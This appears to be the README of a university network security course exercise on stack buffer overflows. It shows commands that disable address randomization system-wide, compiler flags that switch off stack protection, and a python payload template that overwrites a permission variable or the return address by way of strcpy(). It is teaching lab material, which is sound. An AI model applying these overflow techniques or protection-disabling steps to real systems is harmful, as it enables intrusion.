 #NetworkSecurityPresentation
Presentation for the NetSec course based on Buffer overflow exploit

#Requisite
    
##disable memory randomization, enable core dumps
    ```bash
    cat /proc/sys/kernel/randomize_va_space
    sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
    sudo sysctl -p
    cat /proc/sys/kernel/randomize_va_space
    # verify "0"
    ulimit -c unlimited
    ulimit -c
    # verify "unlimited"
```

#First Exercise

The first exercise consists in overwrite a variable used to grant permission to a user using the `strcpy()` vulnerable function

##Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise1.c -o exercise1
```

##Execution
```bash
    cd /path/to/repo/src
    ./exercise input
```
#Second Exercise

The second exercise consists in overwrite the `%eip` register of the stack in order to redirect the program to a chosen function using the `strcpy()` vulnerable function and the `gdb` debugger in order to find out the right number of junk chars to fill up the stack

##Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise2.c -o exercise2
```

##Find out the function register
```bash
    cd /path/to/repo/src
    objdump -d exercise2 | grep <function_name>
```
##Execution
```bash
    cd /path/to/repo/src
    ./exercise $(python2 -c 'print"A"*<num_char> + "function register"')
```
    keep in mind that the intel cpu are Little Endian so pay attention when insert the register
#Third Exercise
    TO DO
